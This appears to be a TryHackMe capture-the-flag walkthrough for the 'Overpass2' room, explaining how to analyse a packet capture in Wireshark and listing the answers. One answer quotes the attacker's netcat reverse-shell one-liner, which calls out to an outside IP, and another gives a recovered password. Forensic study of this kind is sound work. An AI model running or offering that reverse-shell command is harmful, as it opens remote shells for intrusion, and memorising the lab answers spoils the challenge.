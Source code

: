 # Overpass2 Walkthrough
### Link
- https://tryhackme.com/room/overpass2hacked
---
### Task 1  Forensics - Analyse the PCAP
**Question**
###### What was the URL of the page they used to upload a reverse shell?
```
Download and Open pcap

Right click on the first packet --> Select Follow --> TCP Stream
```
[Overpass2_1](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_1.png) , [Overpass2_2](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_2.png)

**Answer**
###### /development/

**Question**
###### What payload did the attacker use to gain access?
```
Right click on the second packet --> Select Follow --> TCP Stream 
```
[Overpass2_3](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_3.png) , [Overpass2_4](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_4.png)

**Answer**
###### exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")

**Question**
###### What password did the attacker use to privesc?

Now let's use another method. We search in the entire capture the keyword : *password*

For that: 
```
    - click on the search icon --> select Packet bytes
    - Don't check Case sensitive
    - Select String
    - indicate the string you want to find: password
```
When you found the packet, Right click --> Select Follow --> TCP Stream

[Overpass2_5](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_5.png) , [Overpass2_6](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_6.png)

**Answer**
######  whenevernoteartinstant